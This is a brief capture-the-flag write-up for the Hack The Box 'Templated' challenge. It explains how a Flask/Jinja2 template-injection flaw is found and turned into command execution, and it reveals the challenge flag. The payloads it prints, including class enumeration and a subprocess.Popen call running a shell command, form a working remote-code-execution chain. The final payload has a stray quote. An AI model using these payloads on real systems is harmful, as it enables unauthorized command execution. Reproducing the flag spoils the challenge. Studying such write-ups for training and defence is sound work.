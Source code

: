 # HTB Templated 

We are given with a target url. Upon enter it's a simple flask jinja site. Hmmm

After some OSINT, it's clear that the attack we will be conduct is SSTI, with a very neat cheatsheet here (https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) 

The exploit is conducted in the following sequence: 
1. Reconn:  url/{{ '7' *7}} -> page '7777777' ....   : this means it is vulnerable
2. Enumerate its classes: {{ ''.__mro__[1].__subclasses__() }} 
3. Found out <type 'file'> is no longer available in python 3 ( https://security.stackexchange.com/questions/208957/flask-jinja2-ssti-to-get-rce-type-file-not-in-object-subclasses )
4. Use <class 'subprocess.Popen'> (find your own index in your env) as suggested here ( https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee ) 
5. Exploit with url/{{ '.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate() }}
   // it calls subprocess to execute cat flag.txt and dump stdout via .communicate() (also stderr, but we don't really care  
6. The flag is in then displayed in the page: The page '(b'HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}\n', None)' could not be found 
